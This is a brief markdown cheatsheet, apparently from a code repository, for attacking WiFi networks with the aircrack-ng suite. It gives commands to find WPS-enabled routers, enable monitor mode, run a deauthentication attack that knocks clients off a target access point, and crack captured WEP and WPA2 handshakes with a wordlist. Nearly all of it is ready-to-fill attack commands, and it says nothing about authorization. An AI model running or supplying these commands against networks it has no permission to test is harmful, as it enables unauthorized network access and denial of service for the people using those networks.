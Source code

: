 # WiFI-Hacking cheatsheet

### Discover the AP, ESSID, and BSSID of a device router with WPS enabled

```sh
wash -i [INTERFACE]
```

### airmon-ng

#### Kill any conflicting processes

```sh
airmon-ng check kill
```

#### Set monitor mode to an interface (create monitor mode virtualized adapter)

```sh
airmon-ng start [INTERFACE]
```

#### Wizard

```sh
airoscript-ng
```

#### De-authentication attack
De-authenticate and desassociate a client.

```sh
aireplay-ng --deauth 25 -h [TARGET MAC] -b [AP MAC] [INTERFACE]
```

#### Crack WEP password

```sh
aircrack-ng 'wireless-data-01.cap'
```

#### Crack WPA2 password

```sh
aircrack-ng -a2 -b [TARGET BSSID] -w dictionary.txt 'wireless-data-01.cap'
```
-a: Technique used to crack the handshake. 2=WPA technique.

-b: BSSID of the target router.

-w: Wordlist.

